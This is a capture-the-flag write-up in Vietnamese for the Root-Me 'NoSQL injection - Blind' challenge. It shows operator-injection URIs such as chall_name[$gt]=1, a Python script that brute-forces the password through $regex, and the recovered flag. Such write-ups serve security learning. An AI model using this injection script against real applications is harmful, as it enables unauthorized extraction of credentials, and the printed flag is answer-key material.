

```diff
@@ Web-Server Challenge
```

## NoSQL injection - Blind [45 Points]

* Yêu cầu của challenge này là ta phải tiêm vào cơ sở dữ liệu NoSQL để lấy password của challenge nosqlblind

  

* Nếu truy vấn của ta là URI như sau

  ```diff
  -- index.php?chall_name=nosqlblind&flag=abc
  ```

* Thì bên phía controller sẽ xử lí như sau để tìm trong cơ sở dữ liệu

  ```js
  $database->find(array(
      "chall_name" => "nosqlblind",
      "flag" => "abc"
  ));
  ```

* Còn nếu ta cung cấp tham số là một **mảng hoặc object** chẳng hạn như

  ```diff
  -- index.php?chall_name[$gt]=1&flag[$gt]=1
  ```

* Thì phía server sẽ xử lý thành

  ```javascript
  $database->find(array(
      "chall_name" => array("$gt" => 1),
      "flag" => array("$gt" => 1)
  ));
  ```

* Cụ thể, các cơ sở dữ liệu NoSQL có những toán tử đặc biệt dùng để tìm kiếm các ```document``` . Cụ thể ta có thể tìm hiểu và nghiên cứu tại **[Link này](https://www.mongodb.com/docs/manual/reference/operator/query/)**

* Ở đây em dùng ```$regex``` operator để brute-force các kí tự trong password. Payload brute-force của em là:

  ```python
  import requests

  url="http://challenge01.root-me.org/web-serveur/ch48/index.php?chall_name=nosqlblind&flag[$regex]="

  flag = ""
  for i in range(30):
    for j in range(32,127):
      print(chr(j))
      if(chr(j) in ['.', '^', '$', '*', '+','-' ,'?', '\\', '|','#','&']):
        continue
      r = requests.get(url=url+flag+chr(j)+".*")
      if("Yeah" in r.text):
        flag+=chr(j)
        print("Flag --------> ",flag)
        break
  print("Flag --------> ",flag)
  ```

* ```diff
  -- Flag thu được là : 3@sY_n0_5q7_1nj3c710n
  ```